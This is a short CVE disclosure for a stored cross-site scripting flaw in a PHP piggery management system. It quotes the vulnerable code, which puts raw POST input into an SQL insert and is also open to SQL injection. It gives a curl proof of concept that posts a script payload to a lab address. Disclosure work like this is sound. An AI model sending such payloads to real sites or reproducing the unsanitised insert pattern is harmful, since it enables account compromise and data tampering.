 # CVE-2023-37630

```
Product : Online Piggery Management System - 1.0
Vulnerability Type : Cross Site Scripting (XSS)
Vendor of Product : Create Network NG

Desc : An unauthenticated user or an attcker can POST javascript code to "manage-breed.php". The code gets executed whenever an authenticated user visits "manage-breed.php"
```

## Vulnerable Code
```php
// manage-breed.php
if(isset($_POST['submit'])){
	$name = $_POST['breed'];
	$query = $db->query("INSERT INTO breed(name)VALUES('$name')");
```

# POC
## Attacker side

```bash
curl -s http://192.168.56.101/pig/manage-breed.php -d "breed=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit="
```

## Admin side
![xss img](xss.png)